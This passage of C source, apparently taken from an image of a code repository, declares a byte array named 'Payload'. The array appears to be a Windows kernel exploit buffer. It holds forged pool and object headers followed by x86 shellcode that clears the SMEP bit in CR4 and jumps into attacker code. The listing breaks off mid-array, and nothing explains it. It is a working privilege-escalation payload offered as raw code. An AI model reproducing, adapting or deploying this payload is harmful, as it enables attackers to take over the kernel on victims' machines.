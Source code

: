 unsigned char Payload[1276] = {
    0x46, 0x47, 0x50, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x02, 0x00, 0x00, 0x00, 0x07, 0x00, 0x00, 0x00, 0x42, 0xC0, 0x27, 0x00, 0x43, 0x00, 0x3A, 0x00,
    0x7C, 0x00, 0x4C, 0x00, 0x50, 0x00, 0x50, 0x00, 0x31, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0x00, 0x00, 0x00, 0x00,
    //POOL_HEADER
    0x56, 0x00, 0x17, 0x04, 0x46, 0x69, 0x6C, 0xE5,
    //OBJECT OPTIONAL HEADERS
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    //OBJECT_HEADER
    0x22, 0x22, 0x00, 0x00, 0x22, 0x22, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x1C, 0x00, 0x04, 0x40,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    //BODY, +0x2F0

    0xCC, 0xE8, 0x00, 0x00, 0x00, 0x00, 0x59, 0x83, 0xE9, 0x06, 0x0F, 0x20, 0xE0, 0x0F, 0xBA, 0xF0,
    0x14, 0x0F, 0x22, 0xE0, 0xFF, 0x51, 0x27, 0x8B, 0x44, 0x24, 0x1C, 0x31, 0xD2, 0x89, 0x10, 0x89,
    0x50, 0x04, 0xB0, 0x01, 0xC2, 0x20, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
